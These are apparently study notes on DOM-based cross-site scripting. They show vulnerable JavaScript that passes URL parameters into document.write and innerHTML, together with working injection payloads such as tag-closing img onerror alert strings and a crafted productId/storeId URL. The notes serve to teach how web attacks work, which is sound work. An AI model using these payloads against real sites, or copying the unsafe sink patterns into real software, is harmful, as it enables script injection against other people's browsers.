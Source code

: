 ${alert(document.domain)}

---

**Dom XSS :**

if resources used directly into sinks without filter , close tag start new tag with alert in it 

script :

`document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');`

```javascript
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+ query +'">'); 
}

var query = (new URLSearchParams(window.location.search)).get('search'); 
if(query) { 
	trackSearch(query); 
}
```

*query is user input* ... so if the query equal `"><img src=1 onerror="alert(1)"> ` the code operate like :

```javascript
document.write('<img src="/resources/images/tracker.gif?searchTerms='+"> 
               <img src=1 onerror="alert(1)">
               +'">');
```



---

`document.write` includes some surrounding context that you need to take account of in your exploit. For example, you might need to close some existing elements before using your JavaScript payload.

example :

`product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>`

---

The innerHTML sink doesn't accept script elements on any modern browser, nor will svg onload events fire. This means you will need to use alternative elements like img or iframe. Event handlers such as onload and onerror can be used in conjunction with these elements. For example:

`element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'`

```javascript
function doSearchQuery(query) {
	document.getElementById('searchMessage').innerHTML = query;
}

var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	doSearchQuery(query);
}
```

---